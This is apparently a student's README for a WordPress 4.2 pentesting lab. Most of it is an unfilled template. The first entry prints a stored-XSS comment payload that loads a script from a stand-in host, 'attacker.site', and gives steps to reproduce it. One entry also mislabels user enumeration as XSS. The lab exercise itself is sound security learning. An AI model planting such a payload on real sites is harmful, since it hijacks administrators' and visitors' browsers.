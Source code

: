 # Week7CyberSecurity

# Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total
Started:  3:10pm 4/10/18 stopped at 10:00PM 4/10/18
Started:  1:50pm 4/11:18 stopped at 

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Vulnerability 7945
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: REFER TO FirstExploit
  - [ ] Steps to recreate:
  I went to a location where I could leave a comment then pasted <a title='xxx onmouseover=eval(unescape(/var%20a%3Ddocument.createElement%28%27script%27%29%3Ba.setAttribute%28%27src%27%2C%27https%3A%2f%2fattacker.site%2fexploit.js%27%29%3Bdocument.head.appendChild%28a%29/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
and I went to http://bytesizematters.com/ and typed out more than 64KB of the character "A", Then I copied it and pasted it 
into the Comment box afterwards I posted the comment. Sign into admin and viewed Network tab under developer tools for exploit
  - [ ] Affected source code:
    - [Link 1](https://klikki.fi/adv/wordpress2.html)

1.  Vulnerability User Enumeration
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.7.5
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

1. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version: 4.2
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Physically installing the application was a challenge. Next is using WordPress for the first time.
## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
